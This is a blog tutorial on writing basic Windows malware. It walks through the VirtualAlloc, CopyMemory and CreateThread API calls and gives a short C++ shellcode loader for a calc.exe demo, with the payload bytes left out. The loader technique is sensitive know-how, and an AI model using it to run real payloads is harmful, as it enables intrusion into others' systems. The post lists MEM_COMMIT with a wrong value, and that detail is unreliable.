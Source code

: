 ```yaml
---
layout: post
title: Let's Make Malware
---
```


# Let’s make malware

## Why?
So, why this post? Some time ago, I was scrolling through Twitter and came across an interesting tweet about malware development. I looked through the comments and found one in particular claiming that you should never pay for courses because you can learn everything you need to online for free. “Just read code”, the comment said.

While I agree that you can absolutely find everything you need online for free, and that you should learn to read code, claiming someone should never pay for courses is ridiculous. It is equivalent to suggesting you should never find a mentor or coach because you can figure everything out yourself.
You could do so, of course, but it would be much more time efficient to have someone telling you what steps to take and what to avoid.

The other reason for this post is because after talking with a coworker, I realized there are not very many resources available for those starting out.
I think that is because this topic itself isn’t really one for beginners or those without a decent understanding of computer science fundamentals and (in this case) Windows Internals.

Nonetheless, I’d like to attempt to remedy this. 

There are plenty of excellent resources that also cover basic process injection as this post will do, but I think it’s important to cover the basics before moving into more advanced and complicated examples in later posts. 

So, let’s make malware.

## Preamble
To put things simply, Windows malware generally follows the same format. First, you create a space to hold your shellcode in the process’s memory. This space is called a memory buffer. 
This buffer can be inside the local process or it can be inside a remote process. 

Then, you move the shellcode into that buffer. 

Finally, you execute it.

## Implementation

### VirtualAlloc
So, how do we actually do that? We use the Win32 API. We’ll need just three functions for this example.
First, VirtualAlloc for creating our memory buffer. It looks like this: 

```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The first parameter, as defined by MSDN, is “The starting address of the region to allocate”. We can set this to NULL to let the system determine where to allocate the region.

The second parameter, simply put, is the size of the buffer in bytes. 

The next parameter is the type of memory allocation. There are a few different ones we could choose from, but for this example we want the MEM_COMMIT (0x000010000) type.

Finally, the last parameter, flProtect, is the memory protection. Again, there are a few different ones we could choose from, but we want PAGE_EXECUTE_READWRITE. 

If we did everything correctly, VirtualAlloc will return the base address of our memory buffer. Simply put, the base address is our starting point.

### CopyMemory

We’ll use CopyMemory for moving our shellcode into the buffer. It looks like this: 

```cpp
void CopyMemory(
  _In_       PVOID  Destination,
  _In_ const VOID   *Source,
  _In_       SIZE_T Length
);
```

It should be self-explanatory. The first parameter is the location (starting memory address) we want to copy to. This is our buffer.

The second parameter is the location (starting memory address) of the thing we’re copying. This is our payload. 

Finally, it needs to know how much to copy into our buffer. We want to copy all our shellcode. 

### CreateThread

Lastly, we’ll use CreateThread for executing the shellcode inside the buffer. It looks like this:

```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```

The first parameter isn’t necessary, so we set it to NULL. 

The second parameter also isn’t necessary. We set it to zero. 

The third parameter is the starting address of what we want to execute. This is our buffer variable.

We are not passing any variables to our thread, so we can set the fourth parameter to zero.

The fifth parameter is for any flags we want to set. We could use this to create the thread in a suspended state, however we will use 0 here. The 0 flag just runs the thread immediately after its created.

Finally, the sixth parameter is not necessary. We will set it to NULL. 

### All Together Now

Here’s how that looks in C++. 
```cpp
#include “windows.h”
int main() {
//msfvenom Calc shellcode
unsigned char payload[] = {… don’t trust random shellcode blobs you find on the Internet … };
LPVOID buffer = VirtualAlloc(0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
CopyMemory(buffer, payload, sizeof payload);
HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 
```

That final API call (WaitForSingleObject) is simply waiting for our newly created thread to finish executing before continuing. The first parameter is the object we are waiting on. In this case, it’s the tHandle variable. The second parameter is how long we want to wait before moving on. We put the value INFINITE so it will wait indefinitely. 

So, I lied. There are four API calls we need to make. If we don’t include that final call, our process ends before the thread has finished executed, killing the thread with it. 

After compiling and running, we should see calc.exe pop up. Success! 

## Resources
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366535(v=vs.85)

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject

https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types

https://en.wikibooks.org/wiki/Windows_Programming/Handles_and_Data_Types
